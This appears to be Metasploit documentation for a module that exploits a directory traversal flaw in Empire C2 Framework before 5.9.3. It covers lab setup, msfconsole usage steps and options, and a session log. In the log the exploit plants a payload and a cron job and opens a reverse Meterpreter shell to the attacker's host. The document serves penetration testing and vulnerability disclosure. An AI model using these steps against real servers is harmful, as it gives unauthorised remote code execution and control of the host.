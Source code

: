 ## Vulnerable Application
This module exploits a directory traversal vulnerability in Empire C2 Framework (<5.9.3) and
writes the payload to /tmp/ directory followed by a cron.d file to execute the payload.

The vulnerability affects:

    * Empire C2 Framework (<5.9.3)

This module was successfully tested on:

    * Empire C2 Framework (v5.9.2) on Kali Linux 6.6.15
    * Empire C2 Framework (v5.9.2) installed with Docker on Kali Linux 6.6.15


### Install and run the vulnerable Empire
1. Install your favorite virtualization engine (VirtualBox or VMware) on your preferred platform.
2. Install Kali Linux (or other Linux distro) in your virtualization engine.
3. Pull pre-built Empire docker container (<5.9.3) in your VM.
   `docker pull bcsecurity/empire:v5.9.2`
4. Run server and client on the same VM.
5. Run the server.
`docker run -it --net="host" -v /tmp:/tmp -v /etc/cron.d:/etc/cron.d bcsecurity/empire:v5.9.2`
(`--net="host" -v /tmp:/tmp -v /etc/cron.d:/etc/cron.d`is not realistic but for simplicity.)
5. Run the client.
`docker run -it --net="host" bcsecurity/empire:v5.9.2 client`
5. Execute Empire listener on client.
```bash
uselistener http
set Host <rhost>
set Port <port>
execute
```


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/empire_skywalker`
4. Do: `set rhost <rhost>`
5. Do: `set rport <port>`
6. Do: `set lhost <attacker-ip>`
7. Do: `run`
8. Have the generated request processed by a vulnerable version of Empire
9. You should get a shell


## Options

### STAGE_PATH (required)

This is the Empire's default staging path. Default is `login/process.php`.
([reference](https://github.com/BC-SECURITY/Empire/blob/8aca42747da6cf2b0def7edede94586f6b3258e8/empire/server/common/agents.py#L169))

### PROFILE (required)

This is the Empire's default communication profile agent. Default is `Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko`
([reference](https://github.com/BC-SECURITY/Empire/blob/8aca42747da6cf2b0def7edede94586f6b3258e8/empire/server/common/agents.py#L169))


## Scenarios
Empire C2 Framework (v5.9.2) installed with Docker on Kali Linux 6.6.15
```
msf6 > use exploit/linux/http/empire_skywalker
[*] No payload configured, defaulting to python/meterpreter/reverse_tcp
msf6 exploit(linux/http/empire_skywalker) > set rhost 192.168.56.7
rhost => 192.168.56.7
msf6 exploit(linux/http/empire_skywalker) > set rport 80
rport => 80
msf6 exploit(linux/http/empire_skywalker) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/empire_skywalker) > check
[*] 192.168.56.7:80 - The target appears to be vulnerable.
msf6 exploit(linux/http/empire_skywalker) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[+] Successfully negotiated an artificial Empire agent
[*] Writing payload to /tmp/NYLkIKRK
[*] Writing cron job to /etc/cron.d/AeVTTPiZ
[*] Waiting for cron job to run, can take up to 60 seconds
[*] Sending stage (24772 bytes) to 192.168.56.7
[+] Deleted /etc/cron.d/AeVTTPiZ
[+] Deleted /tmp/NYLkIKRK
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.7:48026) at 2024-07-20 11:32:03 +0900
[!] This exploit may require manual cleanup of '/var/lib/powershell-empire/empire/server/downloads/LML47FWS/agent.log' on the target

meterpreter > sysinfo
Computer        : kali
OS              : Linux 6.6.15-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.15-2kali1 (2024-05-17)
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
```
